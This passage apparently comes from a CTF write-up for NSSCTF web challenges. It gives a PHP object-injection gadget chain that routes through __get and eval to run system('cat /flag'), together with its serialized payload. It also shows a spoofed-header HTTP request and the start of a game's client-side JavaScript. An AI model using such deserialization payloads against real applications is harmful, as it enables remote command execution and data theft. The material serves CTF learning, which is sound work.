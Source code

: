 ```php

    function __construct($end)
    {
        $this->end = $end;
    }

    function __get($Attribute)
    {
        eval($this->end);
    }
}

$a = new entrance(new springboard);
$a->start->middle = new evil("system('cat /flag');");
echo serialize($a);
// O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:20:"system('cat /flag');";}}}
```

**Payload**

```
serialize=O:8:"entrance":1:{s:5:"start";O:11:"springboard":1:{s:6:"middle";O:4:"evil":1:{s:3:"end";s:20:"system(%27cat%20/flag%27);";}}}
```

### Do you know HTTP

```http
HS / HTTP/1.1
Host: node2.anna.nssctf.cn:28230
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=8767bc72b80045a3c28e8f60acb97340
Connection: close
X-Forwarded-For: 127.0.0.1
Referer: www.ltyyds.com
```

### fake game

查看源代码可以看到 js 代码如下

```js
$(function () {
    $("#submit").on('click', function () {
        $.ajax({
            type: "POST",
            url: "/api/fight",
            contentType: "application/json; charset=utf-8",
            dataType: 'json',
            data: JSON.stringify({
                attributes: {
                    health: parseInt($("#health").val()),
                    attack: parseInt($("#attack").val()),
                    armor: parseInt($("#armor").val()),
                }
            }),
            success: function (res) {
                if (res.status === 200) {
```